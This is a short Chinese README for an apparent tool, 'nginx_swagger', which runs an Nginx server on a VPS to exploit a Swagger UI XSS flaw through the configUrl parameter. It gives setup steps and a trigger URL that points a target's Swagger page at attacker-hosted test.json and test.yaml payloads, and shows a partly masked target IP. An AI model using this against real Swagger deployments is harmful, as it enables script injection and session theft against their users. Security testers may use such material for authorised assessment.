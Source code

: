 # nginx_swagger
这个项目主要用于构建一个Nginx服务端，辅助测试Swagger的XSS漏洞。

## 使用方法

**1、修改test.json中VPS IP为你的VPS地址**

**2、修改test.yaml中的XSS Payload**

**3、启动Nginx**

docker-compose up -d

**4、触发漏洞**
http://目标/swagger-ui/index.html?configUrl=https://VPS_IP/test.json

# 漏洞原理
![avatar](./1_20220611204136.png)

# 漏洞触发

http://1.116.xxx.112:8089/swagger-ui/index.html?configUrl=https://VPS_IP/test.json

注意：目标是HTTPS的网站，你的VPS 可能需要配置HTTPS，我这里没有测试了。 

# 漏洞效果
![avatar](./2_20220611204136.png)
